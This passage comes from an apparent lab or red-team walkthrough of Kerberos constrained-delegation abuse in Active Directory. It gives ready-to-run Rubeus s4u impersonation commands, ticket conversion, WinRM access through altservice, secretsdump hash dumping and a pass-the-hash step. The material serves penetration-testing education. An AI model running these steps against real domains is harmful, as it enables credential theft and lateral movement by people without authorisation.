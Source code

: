 ```sh
execute-assembly Rubeus.exe s4u /msdsspn:[delegated_spn] /domain:[domain] /user:[user] /rc4:[ntlm hash] /impersonateuser:[user_with_local_admin] /nowrap
```

![29](https://i.gyazo.com/9bf98ef3a940f1dd4709f495f8945a35.png)

Similarly to before, we can do the same trick to convert the ticket to a format that is usable in Linux.

```sh
echo "[b64_ticket]" | base64 -d > ticket.kirbi && ticketConverter.py ticket.kirbi ticket.ccache && export KRB5CCNAME=ticket.ccache
```

![30](https://i.gyazo.com/17d48ecaeaae86d2b5617f5f26a21a78.png)

And, of course we can verify that the ticket is usable with `nxc`

```sh
nxc smb [IP/FQDN] --use-kcache
```

![31](https://i.gyazo.com/015982f7305b7f468e86444f27aa8194.png)

We can also use `describeTicket.py` to visualize the contents of our ticket, and you'll see that we have a ticket that is usable for the `CIFS` service on `US-MSSQL`. However, this means that we won't be able to use WinRM.

```sh
describeTicket.py ticket.ccache
```

![32](https://i.gyazo.com/21447cf5d00e245e6ebb7beacda4fb18.jpg)

We can use the `altservice` flag to request a ticket for the `HTTP` service which is usable for WinRM.

```sh
execute-assembly Rubeus.exe s4u /msdsspn:[delegated_spn] /domain:[domain] /user:[user] /rc4:[ntlm hash] /impersonateuser:[user_with_local_admin] /altservice:HTTP /nowrap
```

And, now the ticket is usable for the `HTTP` service on `US-MSSQL`, which includes WinRM.

![33](https://i.gyazo.com/b4e8657cde2f695f6d3850ce30ed8b37.jpg)

Alternatively, you can also use your `cifs` ticket to dump hashes on the target machine with `secretsdump.py`; and use the local administrator's hash to log on via WinRM.

```sh
proxychains secretsdump.py -k -no-pass [TARGET_FQDN]
```

![34](https://i.gyazo.com/032952af57ea8025e1cf391ac4744ca6.png)

Now, we can PTH this hash into WinRM with `evil-winrm` or `nxc winrm`.
